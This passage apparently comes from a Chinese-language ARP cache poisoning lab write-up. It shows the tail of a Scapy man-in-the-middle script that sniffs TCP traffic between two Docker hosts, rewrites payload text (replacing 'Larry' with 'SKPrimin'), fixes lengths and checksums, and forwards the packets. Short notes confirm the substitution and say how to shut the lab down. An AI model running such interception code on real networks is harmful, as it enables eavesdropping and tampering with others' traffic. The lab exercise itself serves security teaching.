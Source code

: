 ```python
        if pkt[TCP].payload:
            data = pkt[TCP].payload.load
            print("Old:"+str(data))
            newdata = data.replace(b'Larry', b'SKPrimin') # replace name
            print("New:"+str(newdata))
            newpkt[IP].len = pkt[IP].len + len(newdata) - len(data)
            send(newpkt/newdata, verbose=False)
        else:
            send(newpkt, verbose=False)
    elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:
        newpkt = IP(bytes(pkt[IP]))
        del(newpkt.chksum)
        del(newpkt[TCP].chksum)
        send(newpkt, verbose=False)


f = 'tcp and (ether src 02:42:0a:09:00:05 or ether src 02:42:0a:09:00:06)'
pkt = sniff(filter=f, prn=spoof_pkt)
```

在A上输入内容，B上能够收到信息，然而当我们输入特定的内容时就会被替换。

![image-20220505233802284](ARPCachePoisoning/image-20220505233802284.png)

攻击脚本处也能印证。

![image-20220505234122031](ARPCachePoisoning/image-20220505234122031.png)

最后不要忘记<kbd>Ctrl + C</kbd>关闭所有程序，并关闭Docker。
